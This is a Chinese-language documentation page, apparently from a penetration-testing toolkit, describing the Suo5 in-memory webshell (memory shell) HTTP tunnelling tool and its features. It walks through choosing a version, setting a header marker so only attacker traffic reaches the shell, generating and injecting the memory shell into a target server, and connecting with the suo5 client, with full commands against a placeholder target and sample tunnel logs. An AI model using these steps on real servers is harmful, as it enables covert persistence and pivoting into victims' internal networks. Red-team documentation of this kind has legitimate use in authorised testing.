


import { Step, Steps } from 'fumadocs-ui/components/steps';

<Callout type="info">项目地址：https://github.com/zema1/suo5</Callout>
<Callout type="success">原理介绍：[https://koalr.me/posts/suo5-a-hign-performace-http-socks/](https://web.archive.org/web/20250430113018/https://koalr.me/posts/suo5-a-hign-performace-http-socks/)</Callout>


## 主要特性

- **优异的传输性能**
    - 全双工：借助双向 Chunked-Encoding 实现单连接双向通信，传输性能接近 FRP
    - 半双工：下行长连接 + 上行短连接实现，在 Nginx 反代场景下仍可保持良好性能
    - 短链接：上下行均使用短连接，适配多层反代和严格限制长连接的场景，作为兜底方案
- **复杂网络环境支持**
    - 支持一层、两层、多层反向代理下的稳定连接
    - 支持通过流量转发和请求重试来支持负载均衡场景
    - 支持配置上游代理（HTTP/SOCKS5）
- **稳定可靠的工程实现**
    - 正确可靠的连接控制、并发管理、心跳保活、异常重连等
    - 完善的单元测试和集成测试保障质量

## 使用步骤

<Steps>
<Step>
### 选择 Suo5/Suo5v2 内存马工具

Suo5 目前有 [1.x](https://github.com/zema1/suo5/releases/tag/v1.3.1) 版本和 [2.x](https://github.com/zema1/suo5/releases/tag/v2.0.0) 版本，由于改动较大，因此做了两个不同的版本适配。



</Step>
<Step>
### 设置流量入口特征

为了防止正常业务进入 Suo5 内存马影响到正常业务，需要指定流量特征进入 Suo5 内存马逻辑处理，此处使用特定请求头和请求值来标识，默认情况下是 User-Agent，请求值会随机生成



</Step>
<Step>
### 生成并注入

选取合适的打包方式，并进行内存马的注入。

</Step>
<Step>
### 连接与使用

在 [zema1/suo5/releases](https://github.com/zema1/suo5/releases) 下载合适的 suo5 客户端

1. 如果请求头使用默认的 User-Agent，则直接通过 `--ua "xXksjas"` 来指定即可，假设生成的为 `User-Agent: xXksjas`，则通过以下命令进行连接
```bash
$ ./suo5 -t http://target.com/suo5.jsp --ua "xXksjas"
...
[INFO] 14:28 connecting to target http://target.com/suo5.jsp
[INFO] 14:28 preferred connection mode: half
[INFO] 14:28 handshake success, using session id 05q21upecl90yccl
[INFO] 14:28 suo5 is going to work on half mode
[INFO] 14:28 starting tunnel at 127.0.0.1:1111
[INFO] 14:28 creating a test connection to the remote target
[INFO] 14:28 start connection to 127.0.0.1:0
[INFO] 14:28 successfully connected to 127.0.0.1:0
[INFO] 14:28 connection closed, 127.0.0.1:0
[INFO] 14:28 congratulations! everything works fine
```
2. 如果请求头使用其他，例如 Referer，则需要使用 `-H "Referer: xXksjas"` 来连接，例如
```bash
$ ./suo5 -t http://target.com/suo5.jsp -H "Referer: xXksjas"
...
[INFO] 14:28 connecting to target http://target.com/suo5.jsp
[INFO] 14:28 preferred connection mode: half
[INFO] 14:28 handshake success, using session id 05q21upecl90yccl
[INFO] 14:28 suo5 is going to work on half mode
[INFO] 14:28 starting tunnel at 127.0.0.1:1111
[INFO] 14:28 creating a test connection to the remote target
[INFO] 14:28 start connection to 127.0.0.1:0
[INFO] 14:28 successfully connected to 127.0.0.1:0
[INFO] 14:28 connection closed, 127.0.0.1:0
[INFO] 14:28 congratulations! everything works fine
```

3. 后续的用法可参考官方仓库给出的 [Suo5 使用指南](https://github.com/zema1/suo5#%E4%BD%BF%E7%94%A8%E6%8C%87%E5%8D%97)
</Step>
</Steps>